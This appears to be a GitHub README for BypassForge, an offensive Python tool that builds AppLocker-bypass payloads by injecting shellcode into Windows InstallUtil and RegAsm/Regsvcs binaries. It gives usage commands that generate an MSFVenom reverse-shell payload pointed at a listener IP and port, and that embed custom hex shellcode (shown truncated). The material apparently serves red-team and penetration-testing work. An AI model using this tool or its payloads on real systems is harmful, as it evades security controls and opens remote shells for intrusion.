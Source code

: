 # BypassForge
Generate Payloads utilizing Process Injection techniques for Living-off-the-Land Applocker Bypass Executables like InstallUtil and RegAsm/Regsvcs in Windows. Currently only two LOL Binaries are supported (InstallUtil & RegAsm/Regsvcs) along with one Process Injection technique (PE Injection). Later on, other techniques and binaries will be added to the tool.

# Example Usage
The script can be used in two modes:
- **MSF Mode**
  
Parameters like listener IP, listener port and MSF payload type are specified, based on which MSFVenom payload is generated and added to the final binary.
```
python BypassForge.py -b InstallUtil,RegAsm -lh 127.0.0.1 -lp 8080 --payload windows/x64/shell_reverse_tcp
```
![image](https://github.com/user-attachments/assets/047de769-d90f-4350-b7c9-96ce3382d891)


- **Custom Shellcode Mode**
  
Custom shellcode which are created using 3rd party tools like micr0_shell (https://github.com/senzee1984/micr0_shell) or manually created is specified. This shellcode is added to the final payload binary.
```
python BypassForge.py -b InstallUtil,RegAsm --custom --hex-shellcode 4831d265488b42604<SNIP>c9515151514989c84989c9ffd0
```
![image](https://github.com/user-attachments/assets/c60a0235-f614-4823-9fc9-606c4f5e59be)
